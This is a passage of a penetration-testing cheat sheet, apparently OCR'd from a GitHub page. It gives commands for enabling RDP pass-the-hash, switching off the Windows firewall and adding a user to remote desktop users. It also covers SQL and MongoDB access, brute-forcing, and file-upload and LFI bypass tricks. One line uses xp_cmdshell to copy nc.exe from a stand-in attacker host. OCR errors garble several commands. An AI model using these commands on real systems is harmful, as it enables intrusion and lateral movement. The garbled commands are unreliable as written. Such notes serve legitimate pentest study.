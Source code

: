   # enable RDP pass the hash
  New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" PropertyType DWORD -Force

  # enable RDP and add user
  reg add "HEY_LOCAL _MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" / fDenyTSConnections /t REG_DWORD /d 0 /f
  reg add HKLM\System \CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f netsh advfirewall set allprofiles state off
  net localgroup "remote desktop users" <USER. NAME> / add
  ```

## SQL connections

- `mysql --host=localhost --user=proftpd --password=protfpd_with_MYSQL_password`
- `psql -h IP -p 5432 -U root -W`
- `mssqlclient.py -p 1435 username:password@IP`
  - `xp_cmdshell whoami /all`
  - `xp_cmdshell copy \\ATTACKERIP\nc\nc.exe c:\Users\Public\nc.exe`
- `impacket-mssqlclient username:'password'@127.0.0.1 -windows-auth`

**SQLite3**
- If you have found a db, you can open it manually or with `sqlite3 Audit.db`
- Second option, commands: `.tables`, `selecet * fom tableOfUsers;`

**MongoDB**
- `mongo --host IP:PORT`
- `mongo <database> -u <username> -p '<password>'`
- `nmap -n -sV --script mongodb-brute -p 27017 IP`
- `show dbs`
- `use dbname`
- `db.users.find()`
- https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb


## Reverse engineering

- [DNSpy](https://github.com/dnSpy/dnSpy), .NET debugger
- [Rider](https://www.jetbrains.com/rider/download/#section=windows)
- [See hardcoded secrets](#hardcoded-secrets)
- `wine /home/kali/Documents/dnSpy/dnSpy.exe`
- Remove '\r' carriage return:
  `tr -d '\r' < inputfile.txt > outputfile.txt && mv outputfile.txt inputfile.txt`
  - The major minor symbols must be kept
  - alternative: `dos2unix 46527.sh`


**Brainfuck**
- Brainfuck example: `++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.`
- Deobfuscator: https://www.splitbrain.org/_static/ook/


## File upload

- for gifs: `GIF87a;` or `GIF89a;`
- remember that if you can do an arbitrary upload, then try to view the files with an LFI with `zip://`, `php://` or other wrappers

**cURL**
  ```